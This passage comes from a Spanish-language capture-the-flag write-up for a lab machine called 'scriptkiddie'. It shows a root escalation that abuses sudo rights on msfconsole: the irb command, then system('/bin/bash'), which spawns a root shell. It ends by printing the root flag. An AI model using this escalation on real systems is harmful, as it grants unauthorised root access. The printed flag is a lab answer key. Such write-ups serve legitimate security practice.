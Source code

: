 Tenemos permisos de sudo como el usuario root para ejecutar msfconsole. Si echamos un vistazo a la página GTFOBins y filtramos por msfconsole encontramos que es vulnerable a escalada de privilegios, debido a que podemos salirnos del entorno restringido usando el comando **irb** el cual spawnea un shell interactivo. Dejo [por aquí la página](https://gtfobins.github.io/gtfobins/msfconsole/#sudo). Y probemos si funciona:

```sh
pwn@scriptkiddie:~$ sudo msfconsole

... SNIP ...

Metasploit tip: Use help <command> to learn more about any command

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> system("/bin/bash")
root@scriptkiddie:/home/pwn# whoami
root
```

¡Funciono!. Estamos como el usuario root. Hemos pwneado la máquina. Finalmente conseguiremos la flag última:

```sh
root@scriptkiddie:/home/pwn# cd /root
root@scriptkiddie:~# ls
root.txt  snap
root@scriptkiddie:~# cat root.txt
f5fb9ff01b4a065dbc251349865c2297
```

¡Fin!. Ha sido entretenido. La práctica hace al maestro.



